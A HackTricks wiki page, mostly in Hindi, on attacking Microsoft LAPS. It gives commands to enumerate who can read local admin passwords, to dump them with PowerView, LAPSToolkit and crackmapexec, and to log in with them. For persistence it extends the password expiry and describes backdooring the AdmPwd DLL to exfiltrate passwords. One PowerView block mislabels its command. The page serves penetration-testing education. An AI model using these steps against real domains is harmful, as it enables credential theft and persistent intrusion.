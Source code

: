 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

स्थानीय व्यवस्थापक पासवर्ड समाधान (LAPS) एक उपकरण है जिसका उपयोग एक प्रणाली का प्रबंधन करने के लिए किया जाता है जहाँ **व्यवस्थापक पासवर्ड**, जो **विशिष्ट, यादृच्छिक, और अक्सर बदले जाते हैं**, डोमेन से जुड़े कंप्यूटरों पर लागू होते हैं। ये पासवर्ड सक्रिय निर्देशिका के भीतर सुरक्षित रूप से संग्रहीत होते हैं और केवल उन उपयोगकर्ताओं के लिए सुलभ होते हैं जिन्हें एक्सेस कंट्रोल सूचियों (ACLs) के माध्यम से अनुमति दी गई है। क्लाइंट से सर्वर तक पासवर्ड ट्रांसमिशन की सुरक्षा **Kerberos संस्करण 5** और **उन्नत एन्क्रिप्शन मानक (AES)** के उपयोग द्वारा सुनिश्चित की जाती है।

डोमेन के कंप्यूटर ऑब्जेक्ट्स में, LAPS का कार्यान्वयन दो नए गुणों की वृद्धि का परिणाम होता है: **`ms-mcs-AdmPwd`** और **`ms-mcs-AdmPwdExpirationTime`**। ये गुण **सादा-टेक्स्ट व्यवस्थापक पासवर्ड** और **इसके समाप्ति समय** को क्रमशः संग्रहीत करते हैं।

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS पासवर्ड एक्सेस

आप **कच्ची LAPS नीति** को `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` से **डाउनलोड** कर सकते हैं और फिर **`Parse-PolFile`** का उपयोग [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) पैकेज से इस फ़ाइल को मानव-पठनीय प्रारूप में परिवर्तित करने के लिए कर सकते हैं।

इसके अलावा, **स्थानीय LAPS PowerShell cmdlets** का उपयोग किया जा सकता है यदि वे उस मशीन पर स्थापित हैं जिस पर हमें पहुंच है:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** का उपयोग यह पता लगाने के लिए भी किया जा सकता है कि **कौन पासवर्ड पढ़ सकता है और इसे पढ़ सकता है**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) LAPS की गणना को कई कार्यों के साथ सरल बनाता है।\
एक है **`ExtendedRights`** को **LAPS सक्षम सभी कंप्यूटरों** के लिए पार्स करना। यह **समूहों** को दिखाएगा जो विशेष रूप से **LAPS पासवर्ड पढ़ने** के लिए **delegated** हैं, जो अक्सर संरक्षित समूहों में उपयोगकर्ता होते हैं।\
एक **खाता** जो **कंप्यूटर** को एक डोमेन में शामिल करता है, उस होस्ट पर `All Extended Rights` प्राप्त करता है, और यह अधिकार **खाते** को **पासवर्ड पढ़ने** की क्षमता देता है। गणना एक उपयोगकर्ता खाते को दिखा सकती है जो एक होस्ट पर LAPS पासवर्ड पढ़ सकता है। यह हमें **विशिष्ट AD उपयोगकर्ताओं** को लक्षित करने में मदद कर सकता है जो LAPS पासवर्ड पढ़ सकते हैं।
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
यदि पावरशेल तक कोई पहुंच नहीं है, तो आप LDAP के माध्यम से इस विशेषाधिकार का दूरस्थ रूप से दुरुपयोग कर सकते हैं।
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
यह सभी पासवर्ड को डंप करेगा जिन्हें उपयोगकर्ता पढ़ सकता है, जिससे आपको एक अलग उपयोगकर्ता के साथ बेहतर स्थिति प्राप्त करने की अनुमति मिलेगी।

## ** LAPS पासवर्ड का उपयोग करना **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS स्थायीकरण**

### **समाप्ति तिथि**

एक बार जब आप व्यवस्थापक बन जाते हैं, तो **पासवर्ड प्राप्त करना** और **एक मशीन को उसके पासवर्ड को अपडेट करने से रोकना** संभव है **समाप्ति तिथि को भविष्य में सेट करके**।
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
यदि कोई **admin** **`Reset-AdmPwdPassword`** cmdlet का उपयोग करता है; या यदि LAPS GPO में **नीति द्वारा आवश्यक से अधिक समय तक पासवर्ड समाप्ति की अनुमति न दें** सक्षम है, तो पासवर्ड अभी भी रीसेट हो जाएगा।
{% endhint %}

### बैकडोर

LAPS का मूल स्रोत कोड [यहां](https://github.com/GreyCorbel/admpwd) पाया जा सकता है, इसलिए कोड में एक बैकडोर डालना संभव है (उदाहरण के लिए `Main/AdmPwd.PS/Main.cs` में `Get-AdmPwdPassword` विधि के अंदर) जो किसी न किसी तरह **नए पासवर्ड को एक्सफिल्ट्रेट या कहीं स्टोर करेगा**।

फिर, बस नए `AdmPwd.PS.dll` को संकलित करें और इसे मशीन में `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` पर अपलोड करें (और संशोधन समय बदलें)।

## संदर्भ
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
